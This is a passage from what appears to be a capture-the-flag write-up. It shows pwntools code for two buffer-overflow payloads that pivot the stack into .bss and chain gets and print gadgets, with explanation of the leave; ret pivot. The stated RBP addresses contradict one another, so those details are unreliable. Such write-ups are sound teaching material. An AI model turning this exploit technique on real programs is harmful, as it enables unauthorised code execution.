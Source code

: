 ```python
payload = flat({
    offset: [
        bss-0x10,   #set rbp to 0x4047f0
        gets_gadget # rip
    ]
}, filler=b'A')

input("Payload send set rbp 0x404058")
io.sendline(payload)

log.info(f"payload 1 output {io.recv()}")
```


### 2nd Overflow

The second payload, which I've named **CEW (Chunk Execution Workflow)**, handles the execution flow. While it might appear straightforward, there are some clever tricks at play.

If you look closely, you'll notice that we're calling gadgets within `main`. So, after `gets_gadget` is called, the program ultimately executes `leave; ret` instructions at the end of its execution.

```python
payload = flat({
    offset:[
        0x404038 + 0x20,    #0x4047f0 new rbp
        gets_gadget,        #0x4047f8 new rip

        0x404018 + 0x20,    #0x404800
        print_gadget,        #0x404808

        cyclic(0x10),       #0x404810 - 0x404818

        bss + 0x30 + 0x20,  #0x404820
        gets_gadget,        #0x404828

    ]
}, filler=b'B')

input("Payload 2")
io.sendline(payload)

log.info(f"payload 2 output: {io.recv()}")
```

This means `rsp` is no longer on the stack; it will now reside at `0x4047f8`. The calculation for this is straightforward, but I can explain it further if you're unfamiliar with it.

The first payload set `RBP` to `0x4048f0` 
